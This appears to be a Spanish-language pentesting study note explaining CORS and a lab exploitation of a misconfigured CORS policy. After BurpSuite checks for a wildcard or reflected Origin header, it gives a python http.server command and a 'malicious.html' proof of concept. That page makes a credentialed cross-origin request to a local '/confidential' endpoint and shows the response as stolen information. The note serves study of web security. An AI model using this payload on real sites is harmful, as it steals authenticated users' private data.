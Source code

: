 # Intercambio de recursos de origen cruzado (CORS)

Tags: #CORS #OWASP #Explotacion 

El **Intercambio de recursos de origen cruzado** (**CORS**) es un mecanismo que permite que un servidor web **restrinja** el **acceso a recursos** de **diferentes orígenes**, es decir, de diferentes dominios o protocolos. CORS se utiliza para proteger la privacidad y seguridad de los usuarios al evitar que otros sitios web accedan a información confidencial sin permiso.

Supongamos que tenemos una aplicación web en el dominio “**example.com**” que utiliza una API web en el dominio “**api.example.com**” para recuperar datos. Si la aplicación web está correctamente configurada para CORS, solo permitirá solicitudes de origen cruzado desde el dominio “**example.com**” a la API en el dominio “**api.example.com**“. Si se realiza una solicitud desde un dominio diferente, como “**attacker.com**“, la solicitud será bloqueada por el navegador web.

Sin embargo, si la aplicación web no está correctamente configurada para CORS, un atacante podría aprovecharse de esta debilidad para acceder a recursos y datos confidenciales. Por ejemplo, si la aplicación web no valida la autorización del usuario para acceder a los recursos, un atacante podría inyectar código malicioso en una página web para realizar solicitudes a la API de la aplicación en el dominio “**api.example.com**“.

El atacante podría utilizar herramientas automatizadas para probar diferentes valores de encabezados CORS y encontrar una configuración incorrecta que permita la solicitud desde otro dominio. Si el atacante tiene éxito, podría acceder a recursos y datos confidenciales que no deberían estar disponibles desde su sitio web. Por ejemplo, podría recuperar la información de inicio de sesión de los usuarios, modificar los datos de la aplicación, etc.

Para prevenir este tipo de ataque, es importante configurar adecuadamente CORS en la aplicación web y asegurarse de que solo se permitan solicitudes de origen cruzado desde dominios confiables.


## CORS Hijacking

Lo que hace CORS es hacer que dominios externos de paginas puedan realizar solicitudes para que puedan sustraer información de la pagina pero solo los que CORS decida.
Puedes definir en la política de CORS que dominios terceros queremos que únicamente puedan realizar solicitudes.


Interceptaremos CORS con BurpSuite para ver su configuración. 

![](Pasted%20image%2020230522150453.png)

Encontramos que esta mal configurado porque tiene un \*, esto nos indica que cualquier pagina puede hacer solicitud. 

Podemos colocar en BurpSuite una nueva cabecera que se llame origin para mirar el comportamiento del servidor y vemos que en la respuesta nos regresa el valor de la cabecera origin. 

![](Pasted%20image%2020230522151027.png)


Debemos de estar autenticados en la web que tiene el CORS.
![](Pasted%20image%2020230522151528.png)


Ahora nos vamos a crear un recurso malicioso por el puerto 80 de nuestro equipo llamado 'malicious.html' y lo compartiremos con Python. 
```bash
❯ python3 -m http.server 80
```

```html
<Script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('GET', 'http://localhost:5000/confidential', true);
	req.withCredentials = true;
	req.send();

	function reqListener(){
			document.getElementById("stoleInfo").innerHTML = req.responseText;
	}
</Script>

<center><h1>Has sido hackeado y esta es la info que he recopilado:</h1></center>

<p id="stoleInfo"></p>
```

